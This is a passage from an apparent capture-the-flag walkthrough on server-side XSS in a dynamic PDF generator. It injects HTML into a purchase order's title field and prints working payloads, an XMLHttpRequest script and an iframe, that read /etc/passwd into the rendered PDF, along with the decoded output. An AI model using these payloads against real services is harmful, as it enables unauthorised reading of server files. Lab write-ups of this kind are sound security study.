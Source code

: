The easiest field to inject into looks like the "title" field. I'll send
the POST request to Repeater, and put this payload in the `title` field,
as that's one that is displayed back in the PDF:

![](/img/image-20230612104652495.png)

The site reports success. Visiting the url for that purchase order
(`/api/po/[id]`) shows it worked:

![](/img/image-20230612110025160.png)

"test" overwrote all the other HTML / CSS that was making the PDF.

#### File Read POCs

In the [Read local
file](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file)
section, there are POCs to try. The first one involves a script using an
`XMLHttpRequest` to read a file:



    <script>
    x=new XMLHttpRequest;
    x.onload=function(){document.write(btoa(this.responseText))};
    x.open("GET","file:///etc/passwd");x.send();
    </script>



I'll remove the newlines and escape the double quotes, place it as the
`title`, and it works, kind of:

![](/img/image-20230612114615486.png)

Only the start of `/etc/passwd` makes it into the page before it's
truncated:



    oxdf@hacky$ echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9" | base64 -d
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/base64: invalid input



It's possible that there's a way to pull a more complete string out of
the PDF, but I'll look at the other POCs, like this one that loads the
file in an `iframe`:



    <iframe src=file:///etc/passwd></iframe>



![](/img/image-20230612120602208.png)
